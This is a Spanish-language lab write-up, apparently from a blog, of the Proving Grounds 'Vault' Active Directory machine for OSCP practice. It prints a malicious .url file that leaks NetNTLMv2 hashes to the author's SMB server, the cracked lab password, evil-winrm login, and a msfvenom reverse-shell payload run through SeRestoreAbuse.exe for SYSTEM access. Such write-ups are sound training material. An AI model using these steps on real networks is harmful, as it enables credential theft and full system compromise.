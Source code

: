 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Vault Writeup (Active Directory)
excerpt: "Continuando con la serie de preparación para el OSCP, en esta máquina tocaremos el robo de un hash NetNTLMv2 mediante un archivo .url, configurado específicamente para que cargue un recurso desde mi servidor SMB, obteniendo así el hash. Para la escalada de privilegios, abusaremos del privilegio SeRestorePrivilege en Windows."
date: 2025-04-07
classes: wide
header:
  teaser: /assets/images/pg-writeup-vault/pg_writeup_vault.webp
  teaser_home_page: true
  icon: /assets/images/windows_logo.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - Active Directory
  - Pentesting
  - SeRestoreAbuse - Privilege Escalation
---
```


Empezamos con el <span style="color:lightblue;">Active Directory</span>

<p align="center">
<img src="/assets/images/pg-writeup-vault/start_car.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.163.172 -oN targeted
```

# Puertos: 

```java
Nmap scan report for 192.168.163.172
Host is up (0.046s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-24 17:35:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-02-24T17:36:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2025-02-23T17:33:42
|_Not valid after:  2025-08-25T17:33:42
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-24T17:36:19+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-24T17:36:20
|_  start_date: N/A
```

Algo que suelo probar en Directorio Activo, siempre que veo el RPC abierto, es tratar de enumerar usuarios del dominio sin proporcionar contraseñas.

```bash
rpcclient -U "" 192.168.163.172 -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Pero no me deja conectarme

# Enumerar SMB con `smbmap`

Voy a intentar enumerar recursos por SMB con la herramienta smbmap.

```bash
smbmap -H 192.168.163.172 -u 'null'
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                                                                               
                                                                                                                                                                                  
[+] IP: 192.168.163.172:445	Name: vault.offsec        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	DocumentsShare                                    	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	SYSVOL                                            	NO ACCESS	Logon server share 
[*] Closed 1 connections
```
Veo algo muy interesante: el recurso `DocumentsShare`, en el cual tengo permiso de escritura.

# Intrusión - Archivo URL Malicioso
Podría tratar de escribir en el documento para que, cuando se cargue, se conecte a un recurso compartido a nivel de red de mi lado y obtener un hash de usuario mediante smbserver.py

Archivo `.url`:

```
[InternetShortcut]
URL=Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\192.168.45.175\%USERNAME%.icon
IconIndex=1
```

Subir archivo con `smbclient`

```bash
smbclient //192.168.163.172/DocumentsShare -N
smb: \> put file.url
putting file file.url as \file.url (1.0 kb/s) (average 1.0 kb/s)
```

Iniciar servidor SMB en mi equipo con smbserver.py

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

Si esperamos un poco y algún usuario accede al recurso DocumentShare y se carga mi archivo malicioso, o si hay alguna tarea automatizada que carga el recurso, podría obtener un hash del usuario que esté accediendo en cuestión.

**Obtenemos un hash para el usuario anirudh**
<p align="center">
<img src="/assets/images/pg-writeup-vault/Pasted image 20250224185130.png">
</p>

Lo crackeamos con `john`:

```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)
1g 0:00:00:04 DONE (2025-02-24 18:52) 0.2320g/s 2461Kp/s 2461Kc/s 2461KC/s Seifer1..Schs93
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Y podemos ver que las credenciales son válidas

```bash
netexec smb 192.168.163.172 -u anirudh -p SecureHM
Using virtualenv: /usr/share/netexec/virtualenvs/netexec-PWU1S8Zj-py3.13
SMB         192.168.163.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         192.168.163.172 445    DC               [+] vault.offsec\anirudh:SecureHM
```
Intrusión a la maquina via WINRM

```bash
evil-winrm -i 192.168.163.172 -u anirudh -p SecureHM
```

Recordad que nos podemos conectar con evil-winrm, ya que el usuario forma parte del grupo RemoteManagementUsers, algo que podéis comprobar con `netexec`, simplemente cambiando `netexec smb` por `netexec winrm` de esta forma: 

```bash
netexec winrm 192.168.163.172 -u anirudh -p SecureHM
```

<p align="center">
<img src="/assets/images/pg-writeup-vault/Pasted image 20250224185410.png">
</p>

Si nos pone <span style="color:yellow;">(Pwn3d!)</span> es que nos podemos conectar.

# Escalada de privilegios - SeRestorePrivilege

Haciendo un **whoami /priv** veo que tengo el privilegio <span style="color:red;">SeRestorePrivilege</span>

Siempre que veamos este privilegio, debemos intentar elevar nuestros privilegios con el exploit [SeRestoreAbuse.exe](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------)

Este script aprovecha el privilegio `SeRestorePrivilege` para modificar claves protegidas del registro de Windows. En concreto, cambia el valor ImagePath del servicio Seclogon para que, en lugar de ejecutarse normalmente, lance un binario malicioso que nosotros elegimos. Después inicia el servicio para ejecutar ese payload con privilegios elevados. Es una forma sencilla y efectiva de escalar privilegios si tienes SeRestorePrivilege disponible.

## Pasos: 

Nos creamos un payload con `msfvenom` para Windows, para lanzarnos una shell más tarde con `netcat`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.175 LPORT=443 -f exe -o reverse.exe
```

Subo ambos archivos: 

```powershell
*Evil-WinRM PS C:\Users\anirudh\Documents> mkdir C:\windows\temp\privesc ; cd C:\windows\temp\privesc
*Evil-WinRM PS C:\Windows\temp\privesc> upload reverse.exe
*Evil-WinRM PC C:\Windows\temp\privesc> upload SeRestoreAbuse.exe
```

Y ejecuto el siguiente comando: 

```powershell
*Evil-WinRM PS C:\Windows\temp\privesc> .\SeRestoreAbuse.exe C:\windows\temp\privesc\reverse.exe
```

Me pongo en escucha con `netcat` y obtengo una shell como `nt authority \system`: 

```
rlwrap ncat -nvlp 443
```

<p align="center">
<img src="/assets/images/pg-writeup-vault/Pasted image 20250224193940.png">
</p>

**Máquina Completada!!**

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.




